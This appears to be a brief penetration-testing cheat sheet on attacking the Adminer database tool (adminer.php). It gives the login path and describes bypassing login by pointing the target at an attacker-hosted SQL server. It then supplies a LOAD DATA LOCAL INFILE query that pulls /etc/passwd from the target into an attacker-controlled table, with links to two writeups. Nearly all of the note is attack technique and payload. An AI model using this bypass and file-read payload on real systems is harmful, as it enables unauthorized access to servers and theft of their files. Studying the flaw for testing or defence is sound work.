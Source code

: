 # adminer.php

## Login Page

```bash
/adminer.php
```

## Interesting Paths

```bash
/var/www/html/index.php
```

## Auth Bypass and LFI

Host own SQL server, connect via target to bypass login

[link1](https://infosecwriteups.com/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f)| [link2](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool)

```bash
Check PHPinfo
open_basedir /var/www/html => can only read files in this dir.

# LFI via SQL

load data local infile "/etc/passwd"
into table admirer.pwn
fields terminated by "\n";
```

